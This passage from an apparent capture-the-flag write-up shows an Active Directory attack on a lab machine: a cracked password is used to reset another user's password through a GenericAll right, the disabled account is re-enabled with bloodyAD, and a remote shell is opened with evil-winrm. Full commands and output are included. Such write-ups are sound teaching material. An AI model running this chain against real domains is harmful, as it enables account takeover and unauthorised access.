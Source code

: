 We got a hit on `ant.edwards:Antman2025!`

Let's check the user's outbound object control.

![bloo](3.png)

Ant has GenericAll over Adam.silver, let's change the adam's password.

```terminal
net rpc password "adam.silver" 'Password123!' -U "puppy.htb"/"ant.edwards"%'Antman2025!' -S "puppy.htb"
```

Trying to authenticate as Adam tells us that the accounts is disabled.

```terminal
[★]$ nxc smb 10.129.232.75 -u adam.silver -p 'Password123!'                                                 
SMB         10.129.232.75   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domin:PUPPY.HTB) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.232.75   445    DC               [-] PUPPY.HTB\adam.silver:Password123! STATUS_ACCOUNT_DISABLED
```

Let's enable the account.

```terminal
[★]$ bloodyAD --host dc.puppy.htb -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from adam.silver's userAccountControl
```

Now we can authenticate

```terminal
[★]$ nxc smb 10.129.232.75 -u adam.silver -p 'Password123!'                                                            
SMB         10.129.232.75   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domin:PUPPY.HTB) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.232.75   445    DC               [+] PUPPY.HTB\adam.silver:Password123! 
```

## **Foothold**

We can get a shell using `evil-winrm`

```terminal
[★]$ evil-winrm -i puppy.htb -u adam.silver -p 'Password123!'                     
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\adam.silver\Documents> whoami
puppy\adam.silver
```
